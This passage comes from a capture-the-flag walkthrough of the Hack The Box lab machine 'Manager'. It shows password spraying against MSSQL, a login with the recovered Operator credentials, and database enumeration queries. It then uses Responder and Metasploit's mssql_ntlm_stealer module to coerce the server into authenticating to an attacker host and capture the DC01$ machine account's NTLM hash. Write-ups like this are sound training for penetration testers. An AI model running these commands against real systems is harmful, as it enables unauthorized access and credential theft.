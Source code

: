 ### **Exploiting MSSQL :**

Try password Spraying on the mssql service: `crackmapexec mssql 10.10.11.236 -u user.lst -p user.lst`

![Untitled](assets/Manager/mssqlcreds.png)

Acces to mssql : `mssqlclient.py -port 1433 manager.htb/Operator:operator@10.10.11.236 -windows-auth`

Enumerate MSSQL : 

```bash
# view current user 
SELECT user_name()

#show databases 
SELECT * FROM master.dbo.sysdatabases

# select a DB 
USE <db_name>

#Show tables 
SELECT * FROM information_schema.tables

# Get table content
SELECT * FROM master.dbo.spt_values
```

**Get NTLM Hash**

MSSQL don’t uses **Keberos** to authenticate users so we can retrieve the NTLM hash :

```bash
#start repnoder 
responder -I <interface>

#Msfconsole
use auxiliary/admin/mssql/mssql_ntlm_stealer

#configure exploit
set PaSSWORD operator
set username Operator
set smbproxy 10.10.16.2
set use_windows_authent true
run

#Look your responder !
```

Intercept DC01$ users hash ! 

![Untitled](assets/Manager/hashDC01.png)
